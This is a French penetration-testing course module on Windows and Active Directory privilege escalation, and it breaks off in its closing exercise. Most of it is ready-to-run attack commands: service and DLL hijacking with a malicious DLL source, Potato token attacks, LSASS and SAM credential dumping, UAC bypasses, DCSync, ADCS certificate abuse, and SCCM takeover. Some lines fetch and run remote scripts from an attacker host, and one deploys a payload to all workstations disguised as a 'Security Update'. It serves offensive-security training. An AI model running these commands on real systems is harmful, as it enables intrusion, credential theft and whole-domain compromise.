

---
tags:
  - formation
  - security
  - windows
  - hacking
  - privilege-escalation
  - mimikatz
  - potato
---

# Module 4 : Escalade de Privilèges

L'escalade de privilèges est souvent la clé pour passer d'un simple accès utilisateur à une compromission totale. Ce module couvre les techniques d'élévation locale sur Windows et l'escalade vers Domain Admin dans Active Directory.

## Objectifs du Module

À la fin de ce module, vous serez capable de :

- Énumérer efficacement les vecteurs d'escalade avec WinPEAS et PowerUp
- Exploiter les services Windows mal configurés
- Abuser des privilèges de tokens (SeImpersonate, SeAssignPrimaryToken)
- Contourner l'UAC avec plusieurs techniques
- Extraire les credentials locaux (SAM, LSASS, cached credentials)
- Réaliser un DCSync pour compromettre le domaine entier

**Durée estimée :** 6.5 heures
**Niveau :** Intermédiaire à Avancé

---

## 1. Énumération Locale

### 1.1 Informations Système

```powershell
# Informations système
systeminfo
hostname
whoami /all

# Utilisateurs et groupes
net user
net localgroup
net localgroup Administrators

# Processus et services
tasklist /svc
wmic service list brief
sc query

# Variables d'environnement
set
$env:PATH

# Historique PowerShell
Get-Content (Get-PSReadlineOption).HistorySavePath
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### 1.2 WinPEAS - Énumération Automatisée

!!! tip "WinPEAS - L'outil de référence"
    WinPEAS (Windows Privilege Escalation Awesome Scripts) automatise la recherche de vecteurs d'escalade.

```powershell
# Télécharger et exécuter
Invoke-WebRequest -Uri "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe" -OutFile winpeas.exe
.\winpeas.exe

# Options spécifiques
.\winpeas.exe quiet                    # Moins de sortie
.\winpeas.exe servicesinfo             # Focus services
.\winpeas.exe applicationsinfo         # Focus applications
.\winpeas.exe log=output.txt           # Sauvegarder dans fichier

# Version sans touches de couleur (pour redirection)
.\winpeas.exe notcolor > output.txt
```

**Sections importantes de WinPEAS :**

| Section | Ce qu'elle révèle |
|---------|-------------------|
| Basic System Info | OS, patches, architecture |
| Users & Groups | Comptes, groupes, privilèges |
| Services | Services vulnérables, permissions |
| Applications | Logiciels installés, versions |
| Network | Connexions, ports, firewall |
| Windows Credentials | Credentials stockés |
| Interesting Files | Fichiers avec credentials potentiels |

### 1.3 PowerUp - Énumération PowerShell

```powershell
# Charger PowerUp
Import-Module .\PowerUp.ps1
# ou
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# Énumération complète
Invoke-AllChecks

# Checks spécifiques
Get-ServiceUnquoted              # Unquoted service paths
Get-ModifiableServiceFile        # Binaires modifiables
Get-ModifiableService            # Services reconfigurables
Get-UnattendedInstallFile        # Fichiers unattend.xml
Get-RegistryAutoLogon           # Autologon credentials
Get-CachedGPPPassword           # GPP passwords
```

### 1.4 Seatbelt - Security Auditing

```powershell
# Seatbelt - outil de GhostPack
.\Seatbelt.exe -group=all

# Groupes spécifiques
.\Seatbelt.exe -group=user        # Infos utilisateur
.\Seatbelt.exe -group=system      # Infos système
.\Seatbelt.exe -group=misc        # Divers

# Commandes individuelles
.\Seatbelt.exe TokenPrivileges
.\Seatbelt.exe CredEnum
.\Seatbelt.exe InterestingFiles
```

---

## 2. Exploitation des Services

### 2.1 Unquoted Service Paths

**Concept :** Si un chemin de service contient des espaces et n'est pas entre guillemets, Windows cherche les exécutables dans un ordre spécifique.

```
Chemin : C:\Program Files\My App\Service\binary.exe

Windows cherche :
1. C:\Program.exe
2. C:\Program Files\My.exe
3. C:\Program Files\My App\Service\binary.exe

Si on peut écrire dans C:\Program Files\My.exe -> code execution
```

**Identification :**

```powershell
# Avec WMI
wmic service get name,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Avec PowerUp
Get-ServiceUnquoted
```

**Exploitation :**

```powershell
# 1. Identifier un chemin vulnérable
# Exemple : C:\Program Files\Vulnerable App\service.exe

# 2. Vérifier les permissions d'écriture
icacls "C:\Program Files\Vulnerable App"

# 3. Placer un payload
# Générer avec msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.100 LPORT=4444 -f exe -o Vulnerable.exe

# 4. Copier au bon endroit
copy Vulnerable.exe "C:\Program Files\Vulnerable.exe"

# 5. Redémarrer le service (si possible)
sc stop VulnerableService
sc start VulnerableService
# ou attendre un reboot
```

### 2.2 Weak Service Permissions

**Concept :** Si on peut modifier la configuration d'un service (binPath), on peut lui faire exécuter notre code.

```powershell
# Identifier avec accesschk (Sysinternals)
accesschk.exe /accepteula -uwcqv "Everyone" *
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# Avec PowerUp
Get-ModifiableService

# Exploitation
sc config VulnerableService binpath= "C:\temp\reverse.exe"
sc stop VulnerableService
sc start VulnerableService

# Ou ajouter un utilisateur admin
sc config VulnerableService binpath= "net localgroup Administrators attacker /add"
sc stop VulnerableService
sc start VulnerableService
```

### 2.3 Weak Service Binary Permissions

**Concept :** Si on peut remplacer le binaire du service directement.

```powershell
# Vérifier les permissions du binaire
icacls "C:\Program Files\Service\binary.exe"

# Si (M) ou (F) pour notre utilisateur -> vulnérable
# M = Modify, F = Full Control

# Exploitation
# Backup de l'original
copy "C:\Program Files\Service\binary.exe" binary.exe.bak

# Remplacer par notre payload
copy reverse.exe "C:\Program Files\Service\binary.exe"

# Redémarrer le service
sc stop ServiceName
sc start ServiceName
```

### 2.4 DLL Hijacking

**Concept :** Un programme charge des DLL dans un ordre précis. Si on peut placer une DLL malveillante dans un chemin prioritaire, elle sera chargée.

```
Ordre de recherche DLL :
1. Répertoire de l'application
2. C:\Windows\System32
3. C:\Windows\System
4. C:\Windows
5. Répertoire courant
6. Répertoires dans PATH
```

**Identification :**

```powershell
# Avec Process Monitor (Sysinternals)
# Filtrer : Result = NAME NOT FOUND, Path ends with .dll

# Liste des DLL manquantes communes :
# - wlbsctrl.dll (IKEEXT service)
# - CRYPTSP.dll
# - VERSION.dll
```

**Création d'une DLL malveillante :**

```c
// dllmain.c
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        system("net localgroup Administrators attacker /add");
    }
    return TRUE;
}
```

```bash
# Compilation avec MinGW
x86_64-w64-mingw32-gcc -shared -o malicious.dll dllmain.c
```

---

## 3. Token Manipulation - Potato Attacks

### 3.1 Comprendre les Privilèges de Token

| Privilège | Description | Exploitable |
|-----------|-------------|:-----------:|
| SeImpersonatePrivilege | Impersonate tokens | :white_check_mark: |
| SeAssignPrimaryTokenPrivilege | Assign tokens | :white_check_mark: |
| SeBackupPrivilege | Bypass file ACLs | :white_check_mark: |
| SeRestorePrivilege | Restore files | :white_check_mark: |
| SeDebugPrivilege | Debug processes | :white_check_mark: |
| SeTakeOwnershipPrivilege | Take ownership | :white_check_mark: |
| SeLoadDriverPrivilege | Load drivers | :white_check_mark: |

```powershell
# Vérifier ses privilèges
whoami /priv

# Si SeImpersonatePrivilege est ENABLED -> Potato attacks possibles
# Comptes concernés : IIS AppPool, MSSQL, service accounts
```

### 3.2 JuicyPotato (Windows Server 2016/2019, Windows 10 < 1809)

```powershell
# Télécharger JuicyPotato
# https://github.com/ohpe/juicy-potato/releases

# Utilisation basique
.\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}

# Avec reverse shell
.\JuicyPotato.exe -l 1337 -p C:\temp\reverse.exe -t *

# CLSIDs communs (varient selon l'OS)
# Windows Server 2016 : {e60687f7-01a1-40aa-86ac-db1cbf673334}
# Windows 10 1803 : {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

### 3.3 PrintSpoofer (Windows 10 1809+, Server 2019)

```powershell
# Plus universel que JuicyPotato
.\PrintSpoofer64.exe -i -c cmd

# Avec commande spécifique
.\PrintSpoofer64.exe -c "C:\temp\reverse.exe"

# Créer un utilisateur admin
.\PrintSpoofer64.exe -c "net user hacker Password123! /add"
.\PrintSpoofer64.exe -c "net localgroup Administrators hacker /add"
```

### 3.4 GodPotato (Fonctionne sur toutes les versions)

```powershell
# GodPotato - le plus récent et universel
.\GodPotato.exe -cmd "cmd /c whoami"

# Reverse shell
.\GodPotato.exe -cmd "C:\temp\reverse.exe"

# Ajouter un utilisateur
.\GodPotato.exe -cmd "net user attacker P@ssw0rd /add && net localgroup Administrators attacker /add"
```

### 3.5 Token Impersonation avec Incognito

```powershell
# Depuis Meterpreter
meterpreter> load incognito
meterpreter> list_tokens -u

# Résultat :
# YOURCOMPANY\Administrator
# NT AUTHORITY\SYSTEM

# Impersonate
meterpreter> impersonate_token "YOURCOMPANY\Administrator"

# Vérifier
meterpreter> getuid
```

---

## 4. Credential Access

### 4.1 SAM & SYSTEM Dump

La base SAM contient les hashes des comptes locaux.

```powershell
# Méthode 1 : Avec reg.exe (requiert admin)
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save

# Transférer sur Kali et extraire
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

# Méthode 2 : Volume Shadow Copy
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\temp\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\system

# Méthode 3 : Avec Mimikatz
privilege::debug
token::elevate
lsadump::sam
```

### 4.2 LSASS Dump

LSASS (Local Security Authority Subsystem Service) stocke les credentials des utilisateurs connectés.

!!! warning "Détection EDR"
    Le dump de LSASS est très surveillé. Les techniques suivantes sont classées par niveau de détection.

**Méthode classique (haute détection) :**

```powershell
# Avec Mimikatz
privilege::debug
sekurlsa::logonpasswords

# Avec ProcDump (Sysinternals)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Analyser le dump sur Kali
pypykatz lsa minidump lsass.dmp
```

**Méthode via comsvcs.dll (détection moyenne) :**

```powershell
# Trouver le PID de lsass
tasklist | findstr lsass

# Dump via rundll32
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\lsass.dmp full
```

**Méthode via Task Manager (détection faible) :**

1. Ouvrir Task Manager en tant qu'admin
2. Onglet "Details"
3. Clic droit sur lsass.exe → "Create dump file"

### 4.3 Cached Credentials

Windows met en cache les credentials pour permettre la connexion hors ligne.

```powershell
# Avec Mimikatz
privilege::debug
lsadump::cache

# Format DCC2 (Domain Cached Credentials 2)
# Cracking avec Hashcat (mode 2100)
hashcat -m 2100 dcc2_hashes.txt wordlist.txt
```

### 4.4 Credential Manager

```powershell
# Lister les credentials stockés
cmdkey /list

# Avec Mimikatz
vault::cred

# Avec PowerShell
[System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR((Get-StoredCredential -Target "target").Password))
```

---

## 5. UAC Bypass

### 5.1 Comprendre l'UAC

User Account Control protège contre les élévations non autorisées. Mais certaines techniques permettent de le contourner.

```powershell
# Vérifier le niveau UAC
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System

# ConsentPromptBehaviorAdmin :
# 0 = Elevate without prompting
# 1 = Prompt for credentials on secure desktop
# 2 = Prompt for consent on secure desktop
# 5 = Prompt for consent for non-Windows binaries (default)
```

### 5.2 Fodhelper Bypass (Windows 10)

```powershell
# Fodhelper.exe auto-elève et lit une clé de registre pour lancer un programme

# Créer la clé
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force

# Déclencher
Start-Process "C:\Windows\System32\fodhelper.exe"

# Nettoyage
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

### 5.3 Eventvwr Bypass

```powershell
# Eventvwr.exe lit mscfile\shell\open\command

# Créer la clé
New-Item "HKCU:\Software\Classes\mscfile\shell\open\command" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force

# Déclencher
Start-Process "C:\Windows\System32\eventvwr.exe"

# Nettoyage
Remove-Item "HKCU:\Software\Classes\mscfile\" -Recurse -Force
```

### 5.4 UACME - Framework de Bypass

```powershell
# UACME contient 70+ techniques de bypass UAC
# https://github.com/hfiref0x/UACME

# Utilisation
.\Akagi64.exe [method_number] [command]

# Méthodes populaires :
# 23 - Fodhelper
# 33 - sdclt.exe
# 41 - cmstp.exe
# 61 - wsreset.exe
```

---

## 6. Domain Privilege Escalation

### 6.1 DCSync Attack

**Concept :** Si vous avez les droits "Replicating Directory Changes" (normalement réservés aux DCs), vous pouvez demander au DC de répliquer les hashes de n'importe quel utilisateur.

**Prérequis :** Membre de Domain Admins, Enterprise Admins, ou groupe avec droits DCSync explicites.

```powershell
# Avec Mimikatz
lsadump::dcsync /user:yourcompany\Administrator
lsadump::dcsync /user:yourcompany\krbtgt

# Tous les utilisateurs
lsadump::dcsync /all /csv
```

```bash
# Avec Impacket
secretsdump.py yourcompany.local/admin:'Password123'@dc01.yourcompany.local

# Juste certains comptes
secretsdump.py yourcompany.local/admin:'Password123'@dc01.yourcompany.local -just-dc-user Administrator
secretsdump.py yourcompany.local/admin:'Password123'@dc01.yourcompany.local -just-dc-user krbtgt
```

### 6.2 ADCS Exploitation (ESC1-ESC8)

Active Directory Certificate Services (ADCS) est souvent mal configuré et constitue un vecteur d'escalade de privilèges majeur. Les vulnérabilités ESC (Escalation) permettent d'obtenir des certificats pour n'importe quel utilisateur, y compris Domain Admin.

!!! info "Outil principal : Certipy"
    [Certipy](https://github.com/ly4k/Certipy) est l'outil de référence pour l'audit et l'exploitation ADCS.

    ```bash
    # Installation
    pip install certipy-ad
    ```

#### Énumération ADCS

```bash
# Énumération complète de l'infrastructure PKI
certipy find -u j.smith@yourcompany.local -p 'Welcome1' -dc-ip 192.168.56.10

# Résultat : fichier JSON + texte avec toutes les vulnérabilités identifiées
# Chercher : [!] Vulnerabilities

# Énumération avec BloodHound output
certipy find -u j.smith@yourcompany.local -p 'Welcome1' -dc-ip 192.168.56.10 -bloodhound
```

#### ESC1 - Enrollee Supplies Subject

**Vulnérabilité :** Le template permet à l'utilisateur de spécifier le Subject Alternative Name (SAN), permettant de demander un certificat pour n'importe quel utilisateur.

**Conditions :**

- `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` activé
- Client Authentication ou Smart Card Logon EKU
- Droits d'enrollment pour des utilisateurs non-privilégiés

```bash
# Identifier les templates ESC1
certipy find -u j.smith@yourcompany.local -p 'Welcome1' -dc-ip 192.168.56.10 -vulnerable -stdout | grep -A 20 "ESC1"

# Demander un certificat pour Administrator
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'VulnerableTemplate' \
    -upn Administrator@yourcompany.local

# Résultat : administrator.pfx

# S'authentifier avec le certificat
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10

# Résultat : hash NTLM de Administrator
# Puis Pass-the-Hash
```

#### ESC2 - Any Purpose EKU

**Vulnérabilité :** Le template a l'EKU "Any Purpose" ou pas d'EKU, permettant l'utilisation du certificat pour l'authentification.

```bash
# Exploitation similaire à ESC1 si ENROLLEE_SUPPLIES_SUBJECT est aussi activé
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'AnyPurposeTemplate' \
    -upn Administrator@yourcompany.local
```

#### ESC3 - Enrollment Agent

**Vulnérabilité :** Un template permet d'obtenir un certificat "Enrollment Agent" qui peut ensuite demander des certificats au nom d'autres utilisateurs.

```bash
# Étape 1 : Obtenir un certificat Enrollment Agent
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'EnrollmentAgent'

# Étape 2 : Utiliser ce certificat pour demander un cert au nom d'Administrator
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'User' \
    -on-behalf-of 'yourcompany\Administrator' \
    -pfx enrollmentagent.pfx
```

#### ESC4 - Template ACL Abuse

**Vulnérabilité :** Un utilisateur a des droits d'écriture (WriteDacl, WriteOwner, WriteProperty) sur un template de certificat.

```bash
# Sauvegarder la configuration originale
certipy template -u j.smith@yourcompany.local -p 'Welcome1' \
    -template 'VulnerableTemplate' -save-old

# Modifier le template pour activer ESC1
certipy template -u j.smith@yourcompany.local -p 'Welcome1' \
    -template 'VulnerableTemplate' \
    -configuration ESC1

# Exploiter comme ESC1
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'VulnerableTemplate' \
    -upn Administrator@yourcompany.local

# Restaurer (optionnel, pour OpSec)
certipy template -u j.smith@yourcompany.local -p 'Welcome1' \
    -template 'VulnerableTemplate' -configuration 'VulnerableTemplate.json'
```

#### ESC5 - PKI Object ACL Abuse

**Vulnérabilité :** Droits d'écriture sur des objets PKI critiques (CA, NTAuthCertificates).

```bash
# Similaire à ESC4 mais sur les objets CA
# Permet de modifier les configurations de la CA elle-même
```

#### ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2

**Vulnérabilité :** Le flag `EDITF_ATTRIBUTESUBJECTALTNAME2` est activé sur la CA, permettant de spécifier un SAN dans n'importe quelle requête.

```bash
# Vérifier si le flag est activé (dans le rapport certipy find)
# "User Specified SAN" : "Enabled"

# Exploitation : demander n'importe quel template avec SAN
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'User' \
    -upn Administrator@yourcompany.local
```

#### ESC7 - CA ACL Abuse

**Vulnérabilité :** Droits ManageCA ou ManageCertificates sur la CA permettant d'approuver des requêtes en attente ou de modifier la configuration.

```bash
# Si ManageCA : activer le flag ESC6
certipy ca -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -enable-template 'SubCA'

# Puis demander un certificat SubCA
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -template 'SubCA' \
    -upn Administrator@yourcompany.local

# La requête sera "pending" - l'approuver avec ManageCertificates
certipy ca -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -issue-request [REQUEST_ID]

# Récupérer le certificat
certipy req -u j.smith@yourcompany.local -p 'Welcome1' \
    -ca 'YOURCOMPANY-CA' \
    -target dc01.yourcompany.local \
    -retrieve [REQUEST_ID]
```

#### ESC8 - NTLM Relay to HTTP Enrollment

**Vulnérabilité :** L'interface web d'enrollment (certsrv) accepte NTLM et n'a pas de protection contre le relay.

```bash
# Lancer le relay vers le web enrollment
certipy relay -target 'http://ca.yourcompany.local/certsrv/certfnsh.asp' -ca 'YOURCOMPANY-CA' -template 'DomainController'

# Dans un autre terminal, forcer l'authentification d'un DC (PetitPotam, PrinterBug)
python3 PetitPotam.py 192.168.56.100 dc01.yourcompany.local

# Le certificat du DC est obtenu automatiquement
# S'authentifier
certipy auth -pfx dc01.pfx -dc-ip 192.168.56.10
```

#### Tableau Récapitulatif ESC

| ESC | Condition | Impact | Difficulté |
|-----|-----------|--------|:----------:|
| ESC1 | ENROLLEE_SUPPLIES_SUBJECT + Auth EKU | Domain Admin | Facile |
| ESC2 | Any Purpose / No EKU | Varie | Facile |
| ESC3 | Enrollment Agent template | Domain Admin | Moyen |
| ESC4 | Write access sur template | Domain Admin | Moyen |
| ESC5 | Write access sur CA objects | Domain Admin | Moyen |
| ESC6 | EDITF_ATTRIBUTESUBJECTALTNAME2 | Domain Admin | Facile |
| ESC7 | ManageCA / ManageCertificates | Domain Admin | Moyen |
| ESC8 | HTTP enrollment + NTLM relay | Domain Admin | Moyen |

#### Authentification avec Certificat

Une fois le certificat obtenu (.pfx), plusieurs options :

```bash
# Option 1 : Certipy (récupère le hash NTLM)
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10
# Résultat : Administrator:HASH

# Option 2 : Rubeus (injection TGT)
.\Rubeus.exe asktgt /user:Administrator /certificate:administrator.pfx /ptt

# Option 3 : PKINIT avec Impacket
gettgtpkinit.py -cert-pfx administrator.pfx -dc-ip 192.168.56.10 yourcompany.local/Administrator administrator.ccache
export KRB5CCNAME=administrator.ccache
```

!!! warning "Persistance via ADCS"
    Un certificat utilisateur est valide **1-2 ans** par défaut. Même si le mot de passe change, le certificat reste valide = persistence long terme.

### 6.3 GPO Abuse

Si vous avez des droits d'écriture sur une GPO appliquée à des machines/utilisateurs sensibles :

```powershell
# Identifier les GPOs modifiables avec PowerView
Get-DomainGPO | Get-ObjectAcl | ? {$_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner"}

# Avec SharpGPOAbuse
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount attacker --GPOName "Vulnerable GPO"

# Ou ajouter une scheduled task
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author YOURCOMPANY\Admin --Command "cmd.exe" --Arguments "/c net localgroup Administrators attacker /add" --GPOName "Vulnerable GPO"

# Forcer l'application de la GPO
gpupdate /force
```

---

## 7. SCCM / MECM Exploitation

Microsoft Endpoint Configuration Manager (anciennement SCCM) est une cible prioritaire en environnement entreprise. Sa compromission permet souvent d'obtenir des credentials privilégiés ou d'exécuter du code sur toutes les machines gérées.

### 7.1 Architecture SCCM



**Composants critiques :**

| Composant | Rôle | Risque si compromis |
|-----------|------|---------------------|
| **Site Server** | Serveur principal SCCM | Contrôle total de l'infrastructure |
| **Site Database** | Base SQL contenant tout | Credentials, inventaire complet |
| **Management Point** | Interface client/serveur | MitM, policy injection |
| **Distribution Point** | Distribution de contenu | Package tampering |
| **NAA (Network Access Account)** | Compte pour accès anonyme | Souvent sur-privilégié |

### 7.2 Énumération SCCM

**Identifier les serveurs SCCM :**

```powershell
# Via DNS (SRV records)
nslookup -type=srv _mssms_mp_.yourcompany.local

# Via LDAP (System Management Container)
Get-ADObject -Filter {objectClass -eq "mSSMSManagementPoint"} -SearchBase "CN=System Management,CN=System,DC=yourcompany,DC=local"

# Via Registry (sur un client SCCM)
reg query "HKLM\SOFTWARE\Microsoft\CCM" /s

# Identifier le site code et MP
Get-WmiObject -Namespace "root\ccm" -Class SMS_Authority
```

**Avec SharpSCCM :**

```powershell
# Énumération complète
.\SharpSCCM.exe local site-info
.\SharpSCCM.exe local client-info

# Lister les Management Points
.\SharpSCCM.exe get management-points

# Lister les Distribution Points
.\SharpSCCM.exe get distribution-points

# Énumérer les collections
.\SharpSCCM.exe get collections

# Voir les déploiements
.\SharpSCCM.exe get deployments
```

### 7.3 Credentials SCCM

**Network Access Account (NAA) :**

Le NAA est stocké sur les clients et peut être déchiffré avec DPAPI :

```powershell
# Extraire le NAA avec SharpSCCM (sur un client SCCM)
.\SharpSCCM.exe local naa

# Ou avec SharpDPAPI
.\SharpDPAPI.exe sccm

# Résultat : Username et Password du NAA en clair!
```

!!! danger "NAA Over-privileged"
    Le NAA est souvent configuré avec des droits excessifs (Domain Admin dans les pires cas). Vérifiez toujours ses permissions après extraction.

**Task Sequence Credentials :**

Les Task Sequences peuvent contenir des credentials en clair ou obfusqués :

```powershell
# Lister les Task Sequences
.\SharpSCCM.exe get task-sequences

# Extraire les secrets des TS
.\SharpSCCM.exe get secrets

# Collection Variable secrets
.\SharpSCCM.exe get collection-variables
```

**Credentials dans la base SQL :**

```sql
-- Sur le serveur SQL SCCM (requiert accès DB)
-- Credentials Task Sequence
SELECT * FROM SC_TaskSequence_Step WHERE TSStepName LIKE '%password%'

-- Network Access Account (chiffré)
SELECT * FROM SC_SiteDefinition WHERE SiteDef LIKE '%NetworkAccessAccount%'

-- Collection Variables
SELECT * FROM dbo.CollectionSettings WHERE CollectionID IN (
    SELECT CollectionID FROM dbo.Collection_Settings_Variables
)
```

### 7.4 Attaques SCCM

**PXE Boot Attack :**

Si le PXE n'est pas sécurisé, on peut intercepter/modifier les boot images :

```bash
# Avec PXEThief
python3 pxethief.py -i eth0

# Décoder le mot de passe PXE capturé
python3 pxethief.py -d CAPTURED_MEDIA_KEY
```

**SCCM Relay Attack :**

Relayer l'authentification NTLM du client vers le Management Point :

```bash
# Configurer le relay vers le site server
ntlmrelayx.py -t https://sccm-server.yourcompany.local/AdminService/wmi/SMS_Admin -smb2support

# Coercer une machine avec PetitPotam/PrinterBug
python3 PetitPotam.py ATTACKER_IP target.yourcompany.local
```

**Hierarchy Takeover (YOURCOMPANYTAKEOVER) :**

Si vous avez admin sur un Site Server, vous pouvez compromettre toute la hiérarchie :

```powershell
# Avec SharpSCCM (depuis un site compromis)
# Ajouter un admin SCCM
.\SharpSCCM.exe admin add-admin --user YOURCOMPANY\attacker --scope "All Systems"

# Exécuter une application sur une collection
.\SharpSCCM.exe exec -d TARGET-PC -p "C:\Windows\System32\cmd.exe" -a "/c powershell -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"
```

### 7.5 Post-Exploitation SCCM

**Déploiement de payload sur toutes les machines :**

```powershell
# Créer une application malveillante
.\SharpSCCM.exe exec -d ALL-WORKSTATIONS -p "powershell.exe" -r

# Ou via PowerShell natif (avec droits admin SCCM)
$Application = New-CMApplication -Name "Security Update"
$DeploymentType = Add-CMScriptDeploymentType -ApplicationName "Security Update" -DeploymentTypeName "Script" -InstallCommand "powershell.exe -ep bypass -f \\attacker\share\payload.ps1"
Start-CMContentDistribution -ApplicationName "Security Update" -DistributionPointName "DP01.yourcompany.local"
New-CMApplicationDeployment -ApplicationName "Security Update" -CollectionName "All Desktop and Server Clients"
```

**Extraction d'inventaire :**

```sql
-- Tous les comptes locaux admin (depuis SQL)
SELECT DISTINCT
    v.Name0 AS ComputerName,
    lg.Name0 AS LocalAdmin
FROM v_R_System v
JOIN v_GS_LOCAL_GROUP_MEMBER lgm ON v.ResourceID = lgm.ResourceID
JOIN v_RA_System_ResourceNames lg ON lgm.Domain0 + '\' + lgm.Name0 = lg.Name0
WHERE lgm.Type0 = 2
```

### 7.6 Outils SCCM

| Outil | Description |
|-------|-------------|
| **SharpSCCM** | Swiss army knife pour SCCM |
| **SCCMHunter** | Énumération et exploitation |
| **PXEThief** | Attaque PXE boot |
| **MalSCCM** | Scripts d'exploitation SCCM |
| **CMPivot** | Query intégré Microsoft (si accès console) |

### 7.7 Détection SCCM Attacks

| Attaque | Indicateurs |
|---------|-------------|
| NAA Extraction | Accès WMI root\ccm\policy |
| PXE Attack | Trafic TFTP inhabituel |
| Hierarchy Takeover | Nouveaux admins SCCM |
| Malicious Deployment | Déploiements non planifiés |

```powershell
# Monitorer les admins SCCM
Get-CMAdministrativeUser | Where-Object {$_.CreatedDate -gt (Get-Date).AddDays(-7)}

# Auditer les déploiements récents
Get-CMDeployment | Where-Object {$_.CreationTime -gt (Get-Date).AddDays(-1)}
```

---

## Exercice Pratique

!!! example "Exercice : Escalade vers SYSTEM via 4 Techniques"

    **Objectif** : Obtenir un shell SYSTEM depuis un compte utilisateur standard via 4 méthodes différentes

    **Contexte** : Vous avez un shell en tant que `YOURCOMPANY\j.smith` sur une machine Windows 10. Le compte IIS AppPool est également compromis sur le serveur web.

    **Technique 1 : Service Exploitation (45 min)**

    1. Énumérer les services avec WinPEAS/PowerUp
    2. Identifier un service vulnérable (unquoted path ou weak permissions)
    3. Exploiter pour obtenir SYSTEM

    **Technique 2 : Potato Attack (30 min)**

    1. Sur le serveur web, vérifier les privilèges du compte IIS
    2. Si SeImpersonatePrivilege est présent, utiliser PrintSpoofer/GodPotato
    3. Obtenir un shell SYSTEM

    **Technique 3 : Credential Extraction (45 min)**

    1. Dump SAM/SYSTEM ou LSASS
    2. Extraire les hashes
    3. Pass-the-Hash vers une autre machine avec admin local

    **Technique 4 : UAC Bypass + Escalade (30 min)**

